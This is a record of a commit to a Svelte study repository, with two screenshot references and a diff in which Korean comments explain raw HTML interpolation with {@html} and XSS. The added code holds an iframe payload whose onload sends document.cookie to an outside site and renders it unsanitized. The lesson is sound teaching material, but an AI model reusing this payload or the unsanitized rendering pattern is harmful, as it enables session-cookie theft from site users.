

Before and after one commit to ChoJinmok/svelte-test, a Svelte app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add: 보간법 / 2. 원시 HTML

```diff
--- a/src/App.svelte
+++ b/src/App.svelte
@@ -1,23 +1,17 @@
 <script lang="ts">
-  const href = 'https://heropy.blog';
-  const name = 'Heropy';
-  let value = 'New input value!';
-  const isUpperCase = false;
+  const h1 = '<h1>Hello Heropy</h1>';
+
+  // documnet.cookie에 로그인 정보가 담겨있다고 가정 -> XSS 공격 가능
+  // 내용을 필터링할 수 있는 라이브러리 사용하는 것이 좋다.
+  const xss = '<iframe onload="document.location=`https://heropy.blog?${documnet.cookie}`"></iframe>';
 </script>
 
-<!-- <a href="https://heropy.blog">Heropy</a> -->
-<a {href}>{name}</a>
-
-<!-- <input type="text" value="Default value.." /> -->
-<input
-  {value}
-  on:input={(e) => { value = e.target.value; }} />
-<!-- 단방향 바인딩과 양방향 바인딩의 보간법은 조금 다르다. -->
-<input bind:value />
+<!-- `@` 기호는 `at-sign`이라고 부른다. -->
+{@html h1}
+<!-- html로 해석돼서 들어가야하는 문자열이 있으면 보간법 내부에서 앞쪽에 html 키워드를 붙여준다. -->
 
 <!--
-다른 프레임워크나 라이브러리는 보간법 사이에 표현식이나 함수내용을 작성하는 것을 권장하지 않는다. -> 해당하는 내용이 반복될 때 성능적으로 문제가 생길 수 있다.
-단, svelte는 컴파일러이기 때문에 전체 코드를 번들하기 전에 평가할 수 있고 그때 충분히 최적화가 가능하다.
--> svelte에서 보간법은 코드량을 줄일 수 있는 방법으로 권장되고 있다.
+XSS(Cross Site Scripting, 사이트 간 스크립팅)은 웹 취약점 중 하나로
+웹사이트 관리자가 아닌 제3자가 웹에 악성 스크립트를 삽입할 수 있는 것을 의미한다.
 -->
-<div>{isUpperCase ? 'DIV' : 'div'}</div>
+{@html xss}
```
